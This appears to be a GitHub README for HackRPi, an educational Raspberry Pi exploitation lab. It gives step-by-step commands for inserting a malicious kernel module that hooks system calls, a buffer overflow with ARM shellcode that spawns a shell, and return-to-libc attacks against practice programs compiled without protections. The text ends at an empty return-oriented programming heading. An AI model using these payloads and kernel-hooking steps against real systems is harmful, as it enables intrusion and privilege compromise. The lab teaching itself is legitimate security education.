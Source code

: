 # HackRPi
- [System Call Hooking](https://github.com/korkeep/HackRPi#system-call-hooking-)
- [Buffer Overflow](https://github.com/korkeep/HackRPi#buffer-overflow-)
- [Return-To-Libc](https://github.com/korkeep/HackRPi#return-to-libc-)
- [Return-Oriented Programming](https://github.com/korkeep/HackRPi#return-oriented-programming-)

## System Call Hooking 🐱‍💻
### Insert kernel files to RPi
- **Step 1**: Mount SD card  
```
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/fs
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 2**: Copy kernel image  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/zImage /mnt/raspi/kernel7.img
```
- **Step 3**: Copy modules  
```
kss@ubuntu:~/HackRPi$ sudo cp -r ./linux/4.4.50-v7+/ /mnt/fs/lib/modules/
```
- **Step 4**: Copy device tree blob  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb /mnt/raspi/
```
- **Step 5**: Copy device tree blob overlays  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb* /mnt/raspi/overlays
kss@ubuntu:~/HackRPi$ sudo cp ./linux/README /mnt/raspi/overlays
```
- **Step 6**: Unmount SD card  
```
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
### Kernel modification attack
- **Step 1**: Check malicious module  
![image](https://user-images.githubusercontent.com/20378368/107459865-6d6e1a80-6b9a-11eb-9713-7319c7e2b622.png)  
- **Step 2**: Check SD card  
![image](https://user-images.githubusercontent.com/20378368/107325262-d303cd80-6aec-11eb-85fe-6e6c9f196352.png)  
```
kss@ubuntu:~/HackRPi/Hook$ lsblk
```
- **Step 3**: Mount SD card  
```
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 4**: Copy malicious module  
```
kss@ubuntu:~/HackRPi/Hook$ cd ..
kss@ubuntu:~/HackRPi$ sudo cp -r ./Hook /mnt/fs/home/pi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
- **Step 5**: Insert malicious module to RPi  
```
pi@raspberrypi:~/Hook$ sudo insmod hooker.ko
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107657527-97bdf600-6cc8-11eb-8165-81f5bb721fc0.png)  

## Buffer Overflow 🐱‍💻
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/BOF $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
pi@korkeep:~/BOF $ gcc -fno-stack-protector -z execstack BOF.c -o BOF
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/BOF $ gdb -q BOF
(gdb) start
```
- **Step 4**: Disassemble main  
```
(gdb) disassemble main
```
- **Step 5**: Set a breakpoint to hack  
![image](https://user-images.githubusercontent.com/20378368/107657827-e1a6dc00-6cc8-11eb-9891-0387c6b8c34b.png)  
```
// Breakpoint target:
// 0x00010530 <+40>:    mov     r3, #0
(gdb) b *0x00010530
```
- **Step 6**: Analyze address state  
```
(gdb) x/100x $sp-200
```
- **Step 7**: Buffer overflow using NOP sled  
![image](https://user-images.githubusercontent.com/20378368/107655183-a86d6c80-6cc6-11eb-9a09-7223b26fdd69.png)  
```
// Target address: 0x7efff570
(gdb) run $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x70\xf5\xff\x7e"')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107658056-1dda3c80-6cc9-11eb-9173-69a569d9439f.png)  

## Return-To-Libc 🐱‍💻
### Original RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
![image](https://user-images.githubusercontent.com/20378368/107732766-87476300-6d3c-11eb-88cf-ee929dbae4ee.png)  
```
// To practice RTL attack, compile with all these options
// However, Raspberry Pi3 does not support some options
pi@korkeep:~/RTL $ gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -no-pie -fno-pic -o RTL RTL.c
```
- **Step 3**: Debugging with gdb  
![image](https://user-images.githubusercontent.com/20378368/107732076-c70d4b00-6d3a-11eb-9929-fd4c3664b426.png)  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
- **Step 4**: Print system() address  
![image](https://user-images.githubusercontent.com/20378368/107729508-7bf03980-6d34-11eb-91f3-331a02ad046f.png)  
```
(gdb) print system
```
- **Step 5**: Find /bin/sh address  
![image](https://user-images.githubusercontent.com/20378368/107729545-90343680-6d34-11eb-8a79-fc45acf8ab5c.png)  
```
(gdb) find &system, +99999999, "/bin/sh"
```
- **Step 6**: RTL attack using system(), /bin/sh address  
```
// Target address: 0x76e9ffac, 0x76f83c68
(gdb) run $(python -c 'print("A"*16+"\xac\xff\xe9\x76"+"A"*4+"\x68\x3c\xf8\x76")')
```
### Alternative RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
// Instead, HackRPi provides alternative source to practice RTL
// system("/bin/sh") function is manually added at RTL.c
pi@korkeep:~/RTL $ gcc -fno-stack-protector -z execstack -fno-pic -o RTL RTL.c
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
- **Step 4**: Disassemble rtl()  
```
(gdb) disassemble rtl
```
- **Step 5**: Find system(), /bin/sh address  
![image](https://user-images.githubusercontent.com/20378368/107731737-0ab38500-6d3a-11eb-9b3e-07e1e3181b0b.png)
```
(gdb) x/x 0x10494
(gdb) x/s 0x10558
```
- **Step 6**: RTL attack using ldr address  
```
//Target: 0x00010488
(gdb) run $(python -c 'print("A"*16+"\x88\x04\x01")')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107734200-3174ba00-6d40-11eb-8306-32b063492b3f.png)

## Return-Oriented Programming 🐱‍💻